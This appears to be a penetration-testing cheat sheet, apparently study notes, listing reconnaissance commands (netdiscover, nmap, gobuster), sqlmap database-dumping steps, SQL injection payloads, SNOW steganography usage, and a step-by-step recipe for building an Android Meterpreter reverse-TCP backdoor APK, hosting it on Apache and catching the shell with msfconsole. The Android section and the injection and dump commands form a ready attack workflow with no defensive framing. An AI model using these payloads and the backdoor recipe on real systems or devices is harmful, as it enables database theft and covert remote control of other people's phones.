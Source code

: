 ## Commands

# Netdiscover
netdiscover -r ip

Ex: netdiscover -r 192.168.1.0/24

In windows:

arp -g

# Sqlmap
1. sqlmap --url 'vulnerable_url"
2. sqlmap --url <url> --databases
3. sqlmap --url <url> --tables
4. sqlmap --url <url> -T <table_name> --columns
5. sqlmap --url <url> --dump -D <database_name> -T <table_name>
    1. Ex: sqlmap --url http://10.10.44.234/about/2 --dump -D site -T people

# Nmap
1. nmap -sV -O -sC -T4 <ip_addr>
2. nmap -A -T4 <ip_addr>

# Snow

## Options Available in SNOW
-C Compress the data if concealing, or uncompress it while extracting.

-Q Quiet mode, If not set means the application will report statistics such as compression percentage and amount of storage available.

-S Report on the approximate amount of space available for a hidden message in the text file. Line length is taken into account, but other options are ignored.

-p For setting the password for concealment of data and while extracting the data.

-l line-len When appending whitespace, snow will always produce lines shorter than this value. By default, it is set to 80.

-f Content of the file will get concealed in the input file.

-m Message String The content written in this flag will be concealed into the input file.

Example
1. Open the uncompressed file.
2. Run the SNOW.exe file.
3. Open CMD and reach the file that you want to hide the message within.
4. Write the command like below for concealing the message into a text file:

**SNOW.EXE -C -p 1234 -m "hidden message" input.txt output.txt**

SNOW.EXE It tells the CMD window that we are using the snow tool for steganography.

-C It is for compressing the data if concealing, or uncompressing it while extracting.

-p It is for a password for concealing and extracting.

input.txt The file in which you want to conceal the message within.

output.txt The file in which you want the output.

# gobuster:
* gobuster dir -u <url> -w <wordlist>   -- enumerates and finds the directories
* x : option to specify file extensions

# SQL Injection:
1.single quote (')
2.payloads: ' OR 1=1;
            ' OR 1=1;#
		  
# Mysql client
1. Command : mysql -u <user> -h <url> -p   -- able to connect mysql running on port 3306
* After connecting to mysql
2.Commands
  1. show databases;
  2. use <database_name>;  -- the dtabase you wanna check
  3. select * from <tablename>;

# Hack an Android Device by Creating Binary Payloads using Parrot Security

Parrot OS:
1. We can achieve this using metaspolit
2. First start the postgresql server
    1. Command: service postgresql start
3. create a payload 
   1. Command: msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=IP.ADDR R > Desktop/Backdoor.apk
4. We are sharing the backdoor.apk using share folder
    #### Commands:
     1. mkdir /var/www/html/share
     2. chmod -R 755 /var/www/html/share
     3. chown -R www-data:www-data /var/www/html/share
5. Start the apache2
     1. Cmd: service apache2 start
6. Copy the backdoor.apk file to share folder
     1. cp /.../.../backdoor.apk /var/www/html/share

7. Launch the metaspolit using command msfconsole
8. Use the module exploit/multi/handler  (use exploit/multi/handler)
9. Set the payload and LHOST
     1. set payload android/meterpreter/reverse_tcp 
	   2. set LHOST ip_addr (// The LHOST is the IP address of the attacking computer )
	   3. show options (// we can see what are the options set)
10. Run the exploit
    1. exploit -j -z (// the command runs the exploit as background job)
